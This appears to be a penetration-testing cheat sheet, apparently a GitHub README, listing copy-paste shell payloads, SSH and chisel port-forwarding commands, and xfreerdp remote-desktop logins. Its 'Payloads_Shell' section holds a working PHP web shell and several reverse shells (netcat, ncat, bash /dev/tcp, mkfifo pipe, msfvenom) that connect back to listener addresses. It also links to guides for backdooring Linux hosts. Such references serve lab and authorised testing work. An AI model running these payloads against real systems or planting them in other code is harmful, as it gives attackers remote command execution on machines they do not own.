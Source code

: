 [9-ways-to-backdoor-a-linux-box](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)

[upgrading-simple-shells-to-fully-interactive-ttys](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)

# Payloads_Shell ✅
```bash
<?php echo system($_GET["cmd"]); ?>
nc 10.11.99.141 5555 -e bash
ncat 10.11.99.141 5555 -e bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
/bin/bash -c /bin/bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.10.10 lport=8888 R
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.14.85.242 9001 >/tmp/f
```
[Other_Reverse_Shell_Site](https://tex2e.github.io/reverse-shell-generator/index.html)

[Pentestmonkey-Reverse-Shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[PayloadsAllTheThings-Reverse-shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

# Port-Forwarding ✅
## SSH ✡️
```bash
ssh 10.10.10.10 -i id_rsa -D 1337 # use proxychane
ssh -L 7777:localhost:80 user@10.10.10.10 # (YOU <-- CLIENT) transfer port from target system to our system
ssh -R 80:localhost:9999 user@10.10.10.10 # (YOU --> CLIENT) transfer port from our system to target system
ssh -C2qTnN -D 1080 user@10.10.10.10
ssh -t -D 8157 solcoteh@10.10.10.10 -p 222
ssh -tt -L8080:localhost:8157 solcoteh@10.10.10.10

-oHostKeyAlgorithms=+ssh-rsa
-oPubkeyAcceptedKeyTypes=+ssh-rsa
```
## Chisel ✡️
```bash
gh repo clone jpillora/chisel
go install github.com/jpillora/chisel@latest
```
[Port-Forwarding](https://fumenoid.github.io/posts/port-forwarding)

# Remote-Desktop with kali-linux ✅
### xfreerdp ✡️
```bash
xfreerdp /v:$ip:3389 
xfreerdp /u:Administrator /v:$ip:3389 
xfreerdp /u:Administrator /p:password /v:$ip:3389 
xfreerdp /u:Administrator /p:password /v:$ip:3389 /cert:ignore
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:$ip:3389 /u:Administrator /p:'password'
```
